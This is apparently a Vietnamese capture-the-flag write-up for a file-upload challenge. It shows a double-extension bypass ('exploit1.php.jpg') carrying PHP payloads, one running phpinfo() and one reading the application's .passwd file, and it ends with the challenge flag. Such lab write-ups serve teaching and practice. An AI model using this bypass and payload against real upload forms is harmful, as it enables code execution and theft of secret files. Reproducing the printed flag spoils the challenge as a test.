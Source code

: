 # File upload - Double extensions

**20 Points - Easy**

**Title:**

Gallery v0.02

**Statement**

Your goal is to hack this photo galery by uploading PHP code.<br>
Retrieve the validation password in the file .passwd at the root of the application.

## Analysis:

Ta có một website trữ kho tàng ảnh icon và chức năng upload ảnh. Thử upload một file ảnh `3wolf_hahaha.jpg`

<p align="center"><img src="images/content1.png"></p>

Truy cập vào đường link ảnh được lưu trữ `./galerie/upload/ebc6ce2122ab1c1727ea0da382f95f2a/3wolf_hahaha.jpg`

Ctr + U -> Không thể xem được *source code* -> Trang này chứa nội dung file ảnh. Kiểm tra bằng cách thêm `view-source:` vào trước URL hiện tại:

![image](images/source1.png)

Vậy là file ảnh mình vừa upload được load lên toàn bộ nội dung tại URL này. Nếu server kiểm tra định dạng không kỹ, ta có thể upload file code PHP do ta tùy biến và được render lên, còn đuôi mở rộng (extension) có thể bypass (chỉ hình thức ngoài) bằng cách thêm đuôi `.jpg` vào.

> NOTE: Bài này mình có test bằng cách đổi đuôi nhưng mà không thành công, có thể nguyên nhân là do bên server chỉ cho render file với các định dạng được định nghĩa trước (.gif, .jpeg and .png) lên trang web. Ta buộc phải dùng **Double extensions**.

## Solution:

Tạo file `exploit1.php.jpg` với nội dung:

```php
<?php
phpinfo();
?>
```

Upload file lên và vào đường dẫn chứa file:

![image](images/content2.png)

Vậy là đoạn code của ta được parse thành công. Thử payload khác. Đề cho mục tiêu cũng dễ nữa, file `.passwd` chúng ta cần đọc ở **thư mục root của ứng dụng** là  `/challenge/web-serveur/ch20/` , chỉnh file `exploit1.php.jpg` thành:

```php
<?php
echo file_get_contents("/challenge/web-serveur/ch20/.passwd");
?>
```

<p align="center"><img src="images/flag.png"></p>

Flag: **Gg9LRz-hWSxqqUKd77-_q-6G8**